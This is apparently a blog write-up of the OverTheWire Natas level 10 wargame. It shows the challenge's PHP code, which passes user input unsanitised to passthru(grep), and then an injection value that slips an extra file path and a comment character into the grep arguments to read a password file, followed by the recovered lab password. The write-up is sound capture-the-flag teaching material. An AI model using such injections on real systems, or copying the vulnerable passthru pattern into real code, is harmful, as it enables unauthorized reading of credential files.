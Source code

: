 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 10"
date:   2015-09-19
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 10 > Level 11

![natas10-01](/assets/images/otw-natas/natas10-01.png)

Source...

```
 <html>
[...]
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as the previous challenge but now we are forbidden to use a semicolon, pipe, or ampersand.

In this case, instead of breaking out of the command we'll try to craft it to do what we want itself. By using a comment character we can eliminate dictionary.txt and insert our own choice of file. To be sure it will match, we'll search for any letter or number.

Our injection...

```
[a-z0-9] /etc/natas_webpass/natas11 #
```

The command as executed by the system...

```
grep -i [a-z0-9] /etc/natas_webpass/natas11 # dictionary.txt
```

Sweet.

![natas10-02](/assets/images/otw-natas/natas10-02.png)

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
